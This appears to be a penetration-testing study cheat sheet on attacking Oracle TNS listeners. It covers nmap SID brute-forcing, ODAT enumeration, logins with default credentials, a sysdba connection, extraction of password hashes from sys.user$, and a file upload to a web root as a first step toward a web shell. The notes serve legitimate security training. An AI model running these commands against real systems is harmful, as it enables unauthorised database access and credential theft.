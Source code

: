 ```yaml
---
tags:
- cpts
- cybersecurity
- info gathering
---
```


# Cheat Sheet

```shell-session
# Default TCP listening on port 1521

# Default files tnsnames.ora and listener.ora location
$ORACLE_HOME/network/admin

# Default files are in PLAIN TEXT

# Nmap scan 
sudo nmap -p1521 -sV {target ip} --open

# Nmap SID Bruteforce
sudo nmap -p1521 -sV {target ip} --open --script oracle-sid-brute

# After setting up ODAT
# Testing ODAT
python3 ./odat.py -h

# Enumerate using ODAT
./odat.py all -s {target ip}


# SQLplus - Log in
sqlplus scott/tiger@10.129.204.235/XE

# Check tables
select table_name from all_tables;

# Check privileges
select * from user_role_privs;

# Connect as sysadmin
sqlplus username/password@{target ip}/XE as sysdba

# Extract Password Hashes
select name, password from sys.user$;

# File Upload web shell to target
# Needs the server to be running a web server and we need to know the exact location of the root dir

# Linux file path 
/var/www/html

# Windows file path
C:\inetpub\wwwroot

# Create text file and upload to the target system
# echo "Oracle File Upload Test" > testing.txt
# ./odat.py utlfile -s {target ip} -d XE -U username -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

```